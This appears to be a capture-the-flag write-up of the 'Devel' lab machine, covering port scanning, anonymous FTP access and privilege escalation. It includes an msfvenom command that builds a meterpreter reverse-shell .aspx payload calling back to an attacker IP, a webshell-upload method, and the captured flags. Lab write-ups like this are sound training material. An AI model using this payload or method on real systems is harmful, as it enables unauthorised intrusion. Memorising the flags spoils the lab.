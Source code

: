 ## Devel
*Easy*

Used rustscan and found ports 21 and port 80 open.

![](images/devel-scan.png)

Anonymous login through FTP is possible.

![](images/devel-ftp.png)

Brought all the necessary files to my machine.
Notice that the files we found in port scanning were same as those we found in FTP. So it might be a webroot on a windows machine.

Emeuneration using gobuster.

![](images/devel-gobust1.png)

![](images/devel-gobust2.png)

Eneumeration using gobuster was not of much use.

Opened the webpage.

![](images/devel-web.png)

I then opened /iisstart.aspx and /aliproject.aspx and through inspect element found that the server is running ASP.NET

![](images/devel-heders.png)

So might have to upload a .aspx webshell via FTP and then open it in the browser to get the reverse shell.

So to make the payload I used msfvenom.
```
msfvenom -p windows/meterpreter/reverse_tcp LHOST=10.10.14.33 LPORT=4444 -f aspx > devel.aspx
```
![](images/devel-devel.png)

Then I set up a meterpreter. I set up a local listener to this handler.

![](images/devel-meterpreter.png)

But I am not the administrator. So I need to become the admin. So looking for some system information

![](images/devel-sysinfo.png)

https://null-byte.wonderhowto.com/how-to/bypass-uac-escalate-privileges-windows-using-metasploit-0196076/ was helpful to understand privialge escalation.

https://titanwolf.org/Network/Articles/Article?AID=e8a8d6f5-38ff-419f-ac2b-4b43f646f43a#gsc.tab=0 also helped.

Tried privilage escalation but failed.

![](images/devel-privesc.png)

The above articles seemed to help. But no session was created. 

![](images/devel-failed.png)

So after some more searching, I tried another exploit and this time it worked.

![](images/devel-second.png)

![](images/devel-final.png)

So finally, became the admin.

![](images/devel-user.png)

![](images/devel-root.png)

User flag **9ecdd6a3aedf24b41562fea70f4cb3e8**   
Root flag **e621a0b5041708797c4fc4728bc72b4b**

